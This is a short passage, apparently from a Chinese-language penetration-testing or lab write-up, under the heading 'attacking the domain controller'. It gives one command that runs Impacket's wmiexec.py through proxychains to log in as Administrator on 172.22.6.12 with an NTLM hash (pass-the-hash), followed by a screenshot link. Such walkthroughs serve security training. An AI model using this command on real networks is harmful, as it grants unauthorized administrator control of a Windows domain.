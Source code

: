 ## 攻击域控

同理登录域控

```plain
proxychains python3 wmiexec.py xiaorang/Administrator@172.22.6.12 -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 -dc-ip 172.22.6.12
```

[![](assets/1705540441-051cf216e522db2743ebfc4b280a3748.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116175355-2976e512-b455-1.png)
